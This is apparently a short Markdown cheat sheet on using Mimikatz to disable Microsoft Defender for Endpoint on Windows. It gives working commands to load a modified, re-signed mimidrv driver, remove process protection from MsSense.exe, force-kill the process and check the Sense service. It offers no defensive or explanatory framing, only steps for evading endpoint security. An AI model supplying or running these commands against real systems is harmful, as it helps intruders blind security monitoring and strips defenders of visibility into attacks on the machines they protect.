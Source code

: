 # Mimikatz

## 01 - Disable Advanced Threat Protection

### 1.1 - Remove PPL Protection

Be sure to make modification in `mimidrv.c` and re-sign it.

```
mimikatz # !+

mimikatz # !processprotect /process:MsSense.exe /remove
```

Then terminate the process.

```
C:\> taskkill.exe /f /im MsSense.exe /t
```

Check the service.

```
C:\> sc.exe query sense
```